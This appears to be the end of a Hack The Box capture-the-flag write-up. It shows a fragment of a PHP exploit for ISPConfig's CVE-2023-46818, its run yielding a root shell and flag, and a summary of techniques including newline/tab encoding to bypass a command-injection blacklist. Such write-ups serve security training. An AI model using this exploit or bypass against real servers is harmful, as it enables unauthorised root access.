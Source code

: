 ```php
    preg_match('/____(.*)____/s', curl_exec($ch), $m) ? print $m[1] : die("\n[-] Exploit failed!\n");
}

```

Executed:

```bash
$php CVE-2023-46818.php http://localhost:8787/ admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell#
```

Successfully executed commands as **root**:

```bash
ispconfig-shell# whoami
root
```

Captured **root flag**.
```bash
ispconfig-shell# cat /root/root.txt
21a789c04e236835972a2d72da7ebe4b
```
---

## ✅ Summary

* Enumerated upload functionality with **restricted extensions**.
* Abused **command injection using encoded newlines and tabs**.
* Retrieved user hash, cracked, and logged in via SSH.
* Used **local port forwarding** to access internal ISPConfig panel.
* Exploited **PHP Code Injection (CVE-2023-46818)** to gain **root**.
* Captured both **user** and **root flags**.

---

## 🎯 Key Techniques Learned

* Blacklist bypass using `%0a` (newline) and `%09` (tab).
* SQLite extraction and hash cracking.
* Local port forwarding for internal services.
* Practical exploitation of authenticated RCE vulnerabilities.
* Clean workflow for enumeration → exploitation → privesc.

---

This structured note will help reinforce your **methodology** for future HTB boxes and real-world OSCP prep. Let me know if you need a Markdown-to-PDF export for your archive and review systems.
